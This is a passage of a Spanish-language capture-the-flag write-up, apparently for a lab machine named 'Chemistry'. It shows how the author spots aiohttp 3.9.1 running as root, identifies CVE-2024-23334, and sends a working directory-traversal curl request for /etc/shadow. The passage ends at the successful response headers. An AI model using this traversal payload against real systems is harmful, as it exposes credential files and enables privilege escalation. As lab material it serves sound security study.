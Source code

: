 Si le hacemos un curl, veremos algo de información:

```bash
rosa@chemistry:~$ curl -v http://127.0.0.1:8080
*   Trying 127.0.0.1:8080...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
> GET / HTTP/1.1
> Host: 127.0.0.1:8080
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Content-Type: text/html; charset=utf-8
< Content-Length: 5971
< Date: Sat, 08 Mar 2025 12:59:45 GMT
< Server: Python/3.9 aiohttp/3.9.1
< 
<!DOCTYPE html>
<html lang="en">
... [snip]
```

Por el contenido HTML podemos inferir que se trata de un sitio web de monitoreo, pero no parece tener funcionalidad alguna. Como si fuese una plantilla nomás.

Buscando información de `aiohttp` (que nos sale en la cabecera Server), encontraremos una vulnerabilidad que afecta a la versión que se ve. Catalogada como `CVE-2024-23334`:

> *When using aiohttp as a web server and configuring static routes, it is necessary to specify the root path for static files. Additionally, the option 'follow_symlinks' can be used to determine whether to follow symbolic links outside the static root directory. When 'follow_symlinks' is set to True, there is no validation to check if reading a file is within the root directory. This can lead to directory traversal vulnerabilities, resulting in unauthorized access to arbitrary files on the system, even when symlinks are not present*

Esto significa que si le mandamos una petición con secuencias de navegación de directorios (`../`) a la ruta `/assets` podemos ir hacia atrás en el árbol y listar archivos que no deberiamos poder ver.

Si vemos quien corre este proceso, veremos que es root:

```bash
rosa@chemistry:~$ ps -faux
... [snip]
root        1079  0.2  1.8 340352 37736 ?        Ssl  01:10   2:05 /usr/bin/python3.9 /opt/monitoring_site/app.py
root        1085  0.0  0.1   6816  3064 ?        Ss   01:10   0:00 /usr/sbin/cron -f
... [snip]
```

Si intentamos listar el `/etc/shadow`, pues...

```bash
rosa@chemistry:~$ curl -v --path-as-is http://127.0.0.1:8080/assets/../../../etc/shadow
*   Trying 127.0.0.1:8080...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
> GET /assets/../../../etc/shadow HTTP/1.1
> Host: 127.0.0.1:8080
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Content-Type: application/octet-stream
< Etag: "17fd638c3d6090a6-53f"
< Last-Modified: Fri, 11 Oct 2024 11:48:06 GMT
```